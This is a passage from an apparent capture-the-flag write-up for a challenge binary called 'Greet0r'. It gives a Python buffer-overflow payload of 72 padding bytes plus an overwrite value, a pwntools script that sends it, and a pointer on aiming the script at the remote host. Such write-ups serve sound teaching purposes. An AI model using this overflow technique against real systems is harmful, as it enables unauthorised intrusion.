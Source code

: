 ```python
f.open('payload.txt', 'wb')
f.write(b'A'*72+b'\x06\x00\x00\x00')
f.close()
```

We can use python's `pwntools` as well:

```python
from pwn import *

p = process('./Greet0r')

print(p.recv())
p.sendline(b'A'*72+b'\x06\x00\x00\x00')
print(p.recvall())
p.close()
```

![image](https://user-images.githubusercontent.com/83258849/147781730-69970f78-e359-467e-a905-3dc8487f64bc.png)

Change `p = process('./Greet0r')` to access the target host `p = remote('<host>', <port>)` and we should get our flag!

_I didn't keep note of the actual flag, sorry :(_

Here is a good youtube video on how it works, created by our beloved **LiveOverFlow**: [https://www.youtube.com/watch?v=T03idxny9jE](https://www.youtube.com/watch?v=T03idxny9jE)
